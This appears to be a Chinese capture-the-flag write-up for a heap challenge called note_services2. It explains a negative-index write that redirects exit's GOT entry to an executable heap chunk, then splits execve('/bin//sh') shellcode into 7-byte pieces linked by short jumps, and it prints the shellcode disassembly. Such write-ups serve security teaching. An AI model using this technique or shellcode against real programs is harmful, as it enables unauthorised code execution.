 ## note_services2

这个程序比较复杂，涉及到heap的内容

![n1.png](https://i.loli.net/2019/08/06/plykQjSBWmeihtK.png)

可以看到这里有Canary与PIE，也就是莫得栈溢出利用，但是NX是关闭的，也就是可以执行shellcode，还有RWX的段，我们进去看看什么段有读写执行权限

![n2.png](https://i.loli.net/2019/08/06/aQnf3sANqZu9MHJ.png)

可以看到程序中的heap段与stack段都可执行，可以考虑shellcode

由于程序中的输入都在heap中，所以就要考虑跳到heap中执行我们输入的shellcode

看看add函数，发现存在一个bug，可以被利用

![n3.png](https://i.loli.net/2019/08/06/CRyZxpiEu6cTSBz.png)

若是把GOT表改去heap，则会跳到heap中执行

先看看point)list与GOT偏移多少

![n4.png](https://i.loli.net/2019/08/06/gvILnABh8KlxjCo.png)

所以给idx为-7，就可以改exit.got指向chunk

![n5.png](https://i.loli.net/2019/08/06/3igkP5MGBh2cZns.png)

接着就是shellcode的编写，由于程序限制一次只能输入8个字符，还会把最后一个字符或者回车符设为0，实际上也就是7个有效字符，所以不能直接发送一个完整的shellcode，可以考虑分成小部分，再通过jmp来在chunk中跳转，jmp offset的机器码为 E9 XX，试了几次，发现E9 16刚好可以跳到下一个chunk的开头（此处的指令是在每个chunk中的7字节中的后两位，也就是输入的是\xXX\xXX\xXX\xXX\xXX\xE9\x16

![n6.png](https://i.loli.net/2019/08/06/h8gvPAeGLRmiFdO.png)

接着就是shellcode的编写，虽然有所限制，但是还是可以从现有的shellcode中修改，此处我的使用shellcode是这样的，再实际输入时可以5个字节为一组再加上 E9 16 ，位数不够可以使用nop来凑

```assembly
   0:   31 c9                   xor    ecx,ecx
   2:   f7 e1                   mul    ecx
   4:   51                      push   rcx
   5:   68 2f 2f 73 68          push   0x68732f2f
   a:   5b                      pop    rbx
   b:   48 c1 e3 20             shl    rbx,0x20
   f:   68 2f 62 69 6e          push   0x6e69622f
  14:   59                      pop    rcx
  15:   48 09 cb                or     rbx,rcx
  18:   53                      push   rbx
  19:   48 89 e7                mov    rdi,rsp
  1c:   6a 00                   push   0x0
  1e:   5e                      pop    rsi
  1f:   48 31 c9                xor    rcx,rcx
  22:   b0 3b                   mov    al,0x3b
  24:   0f 05                   syscall
```
